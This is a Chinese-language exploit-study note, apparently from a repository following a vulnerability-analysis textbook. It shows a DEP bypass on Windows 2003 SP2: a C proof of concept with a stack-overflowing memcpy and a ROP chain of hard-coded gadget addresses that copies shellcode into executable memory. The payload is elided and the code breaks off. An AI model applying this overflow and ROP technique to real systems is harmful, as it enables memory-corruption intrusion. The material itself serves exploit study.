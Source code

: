 ### 参考

《0day安全软件漏洞分析技术第二版》12.3.3节



# 0x03 利用可执行内存挑战 DEP

如果我们能够将 shellcode 复制到这段内存中，并劫持程序流程

![rwe_1](dep/rwe_1.png)

### 环境

windows 2003 sp2

DEP Optout

VC++6.0 禁用优化选项， release ， 关闭GS 和 SafeSEH

### 思路

假使被攻击的程序内存空间中存在这样一个可执行的数据区域，就可以直接通过 memcpy 函数将 shellcode 复制到这段内存区域中执行。

### 代码

```c
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
char shellcode[]=
    "\x90\x90\x90\x90........"
	"\xfb\xe4\x87\x7c"  // pop eax 0x7c87e4fb
	"\x3e\x93\xbf\x7c" // 0x7cbf933e pop pop ret
	"\x99\xc8\xa7\x7c" //0x7ca7c899  push esp pop ebp ret 4 
	"\xd6\x89\x87\x7c" // 0x7c8789d6 pop ecx retn 
	"\x07\x00\x14\x00"	// shellcode
	"\x00\x00\x14\x00"//可执行内存空间地址，复制用 
	"\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址 
	"\xFF\x00\x00\x00"//复制长度
	"\xAC\xAF\x94\x7C"//memcpy
	"shellcode ......."
void test(){
	   char tt[176];
	   memcpy(tt,shellcode,450);
} 
int main() {
       HINSTANCE hInst = LoadLibrary("shell32.dll");
       char temp[200];
       test();
```